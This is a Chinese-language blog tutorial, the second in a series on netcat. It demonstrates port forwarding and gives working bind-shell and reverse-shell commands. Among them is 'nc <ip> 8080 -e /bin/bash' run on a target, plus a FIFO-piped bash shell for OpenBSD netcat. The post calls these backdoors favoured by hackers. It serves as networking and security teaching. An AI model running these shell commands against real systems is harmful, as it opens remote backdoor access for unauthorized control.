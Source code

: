 ```yaml
---
title: TCP/IP 瑞士军刀 - netcat (篇二)
date: 2020-12-11 19:19:36
tags: [TCP/IP, netcat]
thumbnail: TCP-IP-Swiss-Army-Knife-netcat-1/banner.jpg
---
```


[欢迎转载，但请在开头或结尾注明原文出处【blog.chaosjohn.com】](https://blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2.html)

## 前言
昨日写 [TCP/IP 瑞士军刀 - netcat (篇一)](https://blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-1.html) 的时候，翻阅了大量的资料，浏览器的标签也都开满了。所以趁大脑还依旧活跃，今天乘胜追击写个 `篇二`，仍然是以 GIF 动图演示其案例。

## 补上篇
上篇里有提到，如果只用 `netcat` 进行端口转发，必须用到 `GNU` 版本（因其拥有 `-c / -e` 参数）：

- `-c shell commands` 调用 /bin/sh 来执行命令
- `-e filename` 通过程序文件路径来执行程序

上案例：

- 远端执行 `nc -l -k -p 8080 -c "nc 192.168.1.21 22"`，即可将 `8080` 端口转发到 `192.168.1.21:22`
- 本地执行 `ssh 10.144.137.114 -p 8080` 即可测试转发成功

![GNU-netcat 端口转发](TCP-IP-Swiss-Army-Knife-netcat-2/netcat-gnu-port-forwarding.gif)

## 反弹 Shell
`netcat` 在网络应用中，很受黑客的喜爱，`反弹 Shell` 是其经常使用的场景。

什么是 `反弹 Shell` 呢？给个一句话解释：在目标机器上，弹一个 Shell 出来作为其后门，与本地机器进行通信，即 **本地机器** 可直接访问 **目标机器** 的 Shell。

而 `反弹 Shell` 也分为两种：

- `正向 Shell`，又名 `bind shell`
- `反向 Shell`，又名 `reverse shell`

因为要弹个 Shell 出来，所以一般都需要访问到 Shell，`/bin/sh` 或  `/bin/bash` 或 `/bin/zsh` 都可以。既然用到外部 Shell 程序，那一般都是使用 `GNU` 版本的 `netcat`（用到其 `-c / -e` 参数）

### 正向 Shell
先弹后连接，即让 `目标机器` 先弹个 Shell，暴露在某端口，然后 `本地机器` 连接上 `目标机器` 该端口，即可访问目标机器的 Shell。

- 目标机器：`nc -l -p 8080 -e /bin/bash`
- 本地机器：`nc 10.144.137.114 8080`

![GNU netcat 弹正向 Shell](TCP-IP-Swiss-Army-Knife-netcat-2/netcat-gnu-bind-shell.gif)

### 反向 Shell
先监听后连接，即 `本地机器` 先监听 `目标机器` 的某端口，如果 `目标机器` 在该端口弹出了 Shell，就可立即连接上。

- 本地机器：`nc -v -l -p 8080`
- 目标机器：`nc 10.144.247.172 8080 -e /bin/bash`

![GNU netcat 弹反向 Shell](TCP-IP-Swiss-Army-Knife-netcat-2/netcat-gnu-reverse-shell-2.gif)


### OpenBSD netcat 实现正向 Shell
那如果非要用 `OpenBSD` 版本的 `netcat`，搭配什么使用可以反弹 Shell 呢？这里笔者列举一个列子 - `命名管道（named pipe）`，又名 `FIFO`，即 `first in first out` 先进先出。

- 目标机器先执行：`mkfifo /tmp/pipe` 创建一个命名管道
- 目标机器再执行：`cat /tmp/pipe | /bin/bash 2>&1 | nc -l -p 8080 > /tmp/pipe` 进行反弹 Shell
- 本地机器执行：`nc 192.168.1.21 8080`

> `命名管道` 的 `stdout（标准输出）` 通过 `"|"` 流向 `bash`
> 
> `2>&1` 表示 bash 的 `stderr（标准错误）` 重定向到 `stdout（标准输出）`
> 
> `bash` 的 `stdout（标准输出）` 通过 `"|"` 流向 `目标机器的 nc`
>
> 进而通过 `TCP/UDP 连接` 流向 `本地机器的 nc` 并显示
>
> `本地机器` 输入的命令再通过 `本地机器的 nc` 流向 `目标机器的 nc`
>
> `目标机器的 nc` 将接收到的命令输入 `命名管道`
> 
> 至此形成一个完整的循环

![OpenBSD netcat 弹正向 Shell](TCP-IP-Swiss-Army-Knife-netcat-2/netcat-openbsd-bind-shell-with-fifo.gif)

## 写在最后
本文演示了用 `netcat` 实现 `端口转发` 和 `反弹 Shell`，还有很多案例，等待读者们去发掘！

---

最后，如果该文对读者有些许帮助，考虑下给点捐助鼓励一下呗😊
![](hello-world/donate-me.png)